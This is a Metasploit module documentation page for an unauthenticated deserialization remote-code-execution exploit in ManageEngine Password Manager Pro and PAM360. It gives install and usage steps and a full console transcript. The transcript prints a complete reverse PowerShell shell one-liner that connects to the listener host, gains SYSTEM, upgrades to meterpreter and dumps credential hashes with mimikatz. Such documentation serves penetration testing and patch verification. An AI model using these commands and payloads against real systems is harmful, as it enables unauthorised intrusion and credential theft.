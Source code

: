 ## Vulnerable Application
This module exploits a unauthenticated deserialization vulnerability in the XML RPC interface exposed by Zoho
ManageEngine Password Manager Pro before 12101 and PAM360 before 5510. Note that ManageEngine Access Manager Plus
before 4303 is also affected provided one provides credentials, however this is not targeted by this exploit.

Successful exploitation results in unauthenticated RCE as the `NT AUTHORITY\SYSTEM` user.

### Installation
Vulnerable software for testing can be downloaded [here](https://archives2.manageengine.com/passwordmanagerpro/12100/ManageEngine_PMP_64bit.exe).
The patch can be downloaded from [here](https://archives2.manageengine.com/passwordmanagerpro/12101/ManageEngine_PasswordManager_Pro_12100_to_12101.ppm)

When installing the software follow the defaults. You can skip the registration however or any parts where you need
to fill in additional details to continue (these should have a `Skip` button so you can skip them).

## Verification Steps
1. Follow the installation instructions above.
2. Start msfconsole
3. Do: `use exploit/windows/http/zoho_password_manager_pro_xml_rpc_rce`
4. Do: `set RHOSTS [IP]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Optional: `set LPORT [local port to listen on]`
10. Do: `exploit`

## Options

## Targets
```
Id  Name
--  ----
0   Windows EXE Dropper
1   Windows Command
2   Windows Powershell
```

## Scenarios
### ManageEngine Password Manager Pro 12100 Running on Windows 11
```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/zoho_password_manager_pro_xml_rpc_rce
[*] Using configured payload cmd/windows/reverse_powershell
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > set RHOSTS 172.17.245.94
RHOSTS => 172.17.245.94
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > set LHOST 172.17.255.112 
LHOST => 172.17.255.112
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > set LPORT 8899
LPORT => 8899
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > show options

Module options (exploit/windows/http/zoho_password_manager_pro_xml_rpc_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.17.245.94    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metas
                                         ploit
   RPORT      7272             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                         machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/windows/reverse_powershell):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.17.255.112   yes       The listen address (an interface may be specified)
   LPORT  8899             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command


msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > exploit

[*] Started reverse TCP handler on 172.17.255.112:8899 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Windows Command for cmd/windows/reverse_powershell
[+] Successfully executed command: powershell -w hidden -nop -c $a='172.17.255.112';$b=8899;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}
[*] Command shell session 1 opened (172.17.255.112:8899 -> 172.17.245.94:56612) at 2022-08-02 11:37:28 -0500


Shell Banner:
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\ManageEngine\PMP\bin>
-----
          

C:\Program Files\ManageEngine\PMP\bin>whoami
whoami
nt authority\system

C:\Program Files\ManageEngine\PMP\bin>background

Background session 1? [y/N]  y   
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                      Connection
  --  ----  ----               -----------                                      ----------
  1         shell cmd/windows  Shell Banner: Microsoft Windows [Version 10.0.2  172.17.255.112:8899 -> 172.17.245.94:56612 (172.
                               2000.795] (c) Microsoft Corpo...                 17.245.94)

msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.255.112:4433 
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > 
[*] Sending stage (200774 bytes) to 172.17.245.94
[*] Meterpreter session 2 opened (172.17.255.112:4433 -> 172.17.245.94:56631) at 2022-08-02 11:38:11 -0500
[*] Stopping exploit/multi/handler

msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                   Connection
  --  ----  ----                     -----------                                   ----------
  1         shell cmd/windows        Shell Banner: Microsoft Windows [Version 10.  172.17.255.112:8899 -> 172.17.245.94:56612 (1
                                     0.22000.795] (c) Microsoft Corpo...           72.17.245.94)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN11-TEST              172.17.255.112:4433 -> 172.17.245.94:56631 (1
                                                                                   72.17.245.94)

msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain      NTLM                              SHA1
--------  ------      ----                              ----
admin     WIN11-TEST  209c6174da490caeb422f3fa5a7ae634  7c87541fd3f3ef5016e12d411900c87a6046a8e8

wdigest credentials
===================

Username     Domain      Password
--------     ------      --------
(null)       (null)      (null)
WIN11-TEST$  WORKGROUP   (null)
admin        WIN11-TEST  (null)

kerberos credentials
====================

Username     Domain      Password
--------     ------      --------
(null)       (null)      (null)
admin        WIN11-TEST  (null)
win11-test$  WORKGROUP   (null)


meterpreter > 
```
